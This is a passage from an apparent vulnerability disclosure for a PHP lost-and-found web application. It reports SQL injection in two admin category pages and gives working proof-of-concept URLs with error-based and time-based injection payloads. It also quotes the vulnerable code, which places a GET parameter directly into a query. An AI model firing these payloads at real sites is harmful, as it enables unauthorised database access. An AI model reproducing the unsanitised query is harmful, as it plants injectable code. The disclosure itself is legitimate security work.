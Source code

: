 # **2.SQL injection vulnerability in admin\categories\manage_category.php**
---
## Sample request POC #2

```
http://php-lfis.com/?page=admin/categories/manage_category&id=1%27%20OR%20(SELECT%205622%20FROM(SELECT%20COUNT(*),CONCAT(0x7162627871,(SELECT%20(ELT(5622=5622,1))),0x71766b6b71,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27LIVq%27=%27LIVq
```
## Sqlmap running results #2

![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/2.admin-categories-manage_category.php.jpg "Lost and Found Information System")

## Related Codes admin\categories\manage_category.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `category_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }
}
?>
```

# **3.SQL injection vulnerability in admin\categories\view_category.php**
---
## Sample request POC #3

```
http://php-lfis.com/?page=admin/categories/view_category&id=1%27%20AND%20(SELECT%209094%20FROM%20(SELECT(SLEEP(5)))psGp)%20AND%20%27osaz%27=%27osaz
```
## Sqlmap running results #3
